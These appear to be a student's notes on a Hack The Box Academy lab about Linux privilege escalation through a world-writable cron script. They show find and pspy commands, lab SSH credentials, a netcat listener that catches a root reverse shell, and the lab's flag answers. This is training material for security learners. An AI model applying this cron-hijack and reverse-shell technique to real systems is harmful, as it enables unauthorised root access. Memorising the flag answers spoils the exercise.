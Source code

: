 
- The `crontab` command can create a cron file, which will be run by the cron daemon on the schedule specified. 
- Cron created files found in `/var/spool/cron` 
- Each entry in the crontab file requires six items in the following order: 
	- minutes
	- hours
	- days
	- months
	- weeks
	- commands
- Some apps create cron job files in /etc/cron.d

Cron job files often have mis-configurations that allow non-root users to modify a file because they don't have the proper permissions set.

Use a find command to search for world writable files and directories:
```shell-session
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

Use the [pspy](https://github.com/DominicBreuker/pspy) tool to view running processes without root permissions. It can be used to see commands run by users, cron jobs, processes etc.,

### pspy example
```shell-session
./pspy64 -pf -i 1000

pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=true ||| Scannning for processes every 1s and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2020/09/04 20:45:03 CMD: UID=0    PID=999    | /usr/bin/VGAuthService 
2020/09/04 20:45:03 CMD: UID=111  PID=990    | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation 
2020/09/04 20:45:03 CMD: UID=0    PID=99     | 
2020/09/04 20:45:03 CMD: UID=0    PID=988    | /usr/lib/snapd/snapd 

<SNIP>

2020/09/04 20:45:03 CMD: UID=0    PID=1017   | /usr/sbin/cron -f 
2020/09/04 20:45:03 CMD: UID=0    PID=1010   | /usr/sbin/atd -f 
2020/09/04 20:45:03 CMD: UID=0    PID=1003   | /usr/lib/accountsservice/accounts-daemon 
2020/09/04 20:45:03 CMD: UID=0    PID=1001   | /lib/systemd/systemd-logind 
2020/09/04 20:45:03 CMD: UID=0    PID=10     | 
2020/09/04 20:45:03 CMD: UID=0    PID=1      | /sbin/init 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2201   | /bin/bash /dmz-backups/backup.sh 
2020/09/04 20:46:01 CMD: UID=0    PID=2200   | /bin/sh -c /dmz-backups/backup.sh 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
2020/09/04 20:46:01 CMD: UID=0    PID=2199   | /usr/sbin/CRON -f 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2203   | 
2020/09/04 20:46:01 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2204   | tar --absolute-names --create --gzip --file=/dmz-backups/www-backup-202094-20:46:01.tgz /var/www/html 
2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
2020/09/04 20:46:01 CMD: UID=0    PID=2205   | gzip 
2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
2020/09/04 20:46:03 CMD: UID=0    PID=2206   | /bin/bash /dmz-backups/backup.sh 
2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
```

 - `pspy` discovers a cron job creating a backup.sh file every three minutes. 
 - If we can edit this file then add a reverse shell bash one line. When it executes at the three minute mark we will have a shell!

### Questions

1. Connect to the target system and escalate privileges by abusing the misconfigured cron job. Submit the contents of the flag.txt file in the /root/cron_abuse directory.

#### IP
```
10.129.66.201
```

#### Username
```
htb-student
```

#### Password
```
Academy_LLPE!
```

#### SSH
```
ssh htb-student@10.129.66.201
```


 #### Finding the backup.sh file
 ```
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

/etc/cron.daily/backup
/dmz-backups/backup.sh
/proc
/sys/kernel/security/apparmor/.remove
/sys/kernel/security/apparmor/.replace
/sys/kernel/security/apparmor/.load
/sys/kernel/security/apparmor/.access
/sys/fs/cgroup/memory/user.slice/cgroup.event_control
```

SCP'd the pspy32s file to victim
```
scp ~/Downloads/pspy32s htb-student@10.129.66.201:/tmp
```

Running pspy we see the backup.sh file. After a few more minutes we see it's being stored in the /dmz-backups/ directory and tar'ring a file to `/var/www/html`

```
htb-student@NIX02:/tmp$ ./pspy32s -pf -i 1000
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=true ||| Scanning for processes every 1s and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2024/03/02 13:58:57 CMD: UID=1008  PID=2611   | ./pspy32s -pf -i 1000 
2024/03/02 13:58:57 CMD: UID=0     PID=2608   | 
2024/03/02 13:58:57 CMD: UID=0     PID=2540   | 
2024/03/02 13:58:57 CMD: UID=0     PID=2431   | 
2024/03/02 13:58:57 CMD: UID=0     PID=2397   | 
2024/03/02 13:58:57 CMD: UID=0     PID=2361   | 
2024/03/02 13:58:57 CMD: UID=1008  PID=2282   | -bash 
2024/03/02 13:58:57 CMD: UID=1008  PID=2279   | sshd: htb-student@pts/0
2024/03/02 13:58:57 CMD: UID=1008  PID=2187   | (sd-pam) 

```

![[Pasted image 20240302081742.png]]

Edit backup.sh to add a reverse bash one liner at the bottom
![[Pasted image 20240302083006.png]]


FLAG.TXT

Initially I used a find command to find the flag.txt file. But it also found the other flags for other lessons. I then just went to the root directory for this lesson to find the correct flag.
```
─$ netcat -nlvp 8080
listening on [any] 8080 ...
connect to [10.10.16.45] from (UNKNOWN) [10.129.66.201] 41156
bash: cannot set terminal process group (2826): Inappropriate ioctl for device
bash: no job control in this shell
root@NIX02:~#      

root@NIX02:~# find / -type f -name flag.txt -exec cat {} \; 2>/dev/null
find / -type f -name flag.txt -exec cat {} \; 2>/dev/null
91927dad55ffd22825660da88f2f92e0
46237b8aa523bc7e0365de09c0c0164f
14347a2c977eb84508d3d50691a7ac4b
6a9c151a599135618b8f09adc78ab5f1
root@NIX02:~# cd /root
cd /root
root@NIX02:~# ls -l
ls -l
total 16
drwxr-xr-x 2 root root 4096 Jan 25 11:28 cron_abuse
drwxrwxr-x 2 root root 4096 Jan 25 11:28 kernel_exploit
drwxr-xr-x 2 root root 4096 Jan 25 11:28 ld_preload
drwx------ 2 root root 4096 Jan 25 11:28 screen_exploit
root@NIX02:~# cd cron_abuse
cd cron_abuse
root@NIX02:~/cron_abuse# ls
ls
flag.txt
root@NIX02:~/cron_abuse# cat flag.txt   
cat flag.txt
14347a2c977eb84508d3d50691a7ac4b
root@NIX02:~/cron_abuse# 

```
